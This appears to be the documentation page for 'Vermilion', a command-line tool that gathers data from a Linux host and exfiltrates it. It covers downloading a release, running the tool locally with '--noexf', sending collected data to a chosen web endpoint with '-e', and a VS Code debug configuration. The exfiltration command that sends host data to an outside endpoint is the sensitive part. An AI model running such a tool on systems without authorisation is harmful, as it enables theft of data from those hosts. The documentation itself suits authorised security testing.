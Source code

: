 # Vermilion Docs


## Installation  

New version of the tool are released via Github.  
You can retrieve the release you want from [*this*](https://github.com/R3DRUN3/vermilion/releases/) page.  
Example via bash (wget):  
```console
wget https://github.com/R3DRUN3/vermilion/releases/download/v0.3.0/vermilion_0.3.0_linux_amd64.tar.gz
tar -xzf vermilion_0.3.0_linux_amd64.tar.gz
chmod +x vermilion
```  

## Usage
In order to see the tool helper run:  
```console
vermilion -h
```  

To run the tool with no exfiltration run:  

```console
vermilion --noexf
```  

The previous command produce a local `exdata` folder with a compressed (.zip) archive inside.  
The archive contains all exfiltrated data.  


If you want to specify an endpoint for exfiltration run:  
```console
vermilion -e https://<your-web-endpoint>
```  





## Debug  

You can use [*vscode*](https://code.visualstudio.com/) for debugging.  
this repo already contains the `.vscode/launch.json` file:  

```json
{
    "version": "0.2.0",
    "configurations": [
        {
            "name": "Debug vermilion with VsCode",
            "type": "go",
            "request": "launch",
            "mode": "debug",
            "program": "${workspaceFolder}/main.go",
            "args": ["--noexf"],
            "env": {},
            "showLog": true,
            "cwd": "${workspaceFolder}"
        }
    ]
}
```  

Just modify this file to accomodate your configuration and launch the debug via vscode.  

## Test Exfiltration  

You can test data exfiltration locally by following [*these instructions*](../tests/exfiltration/README.md).  
  


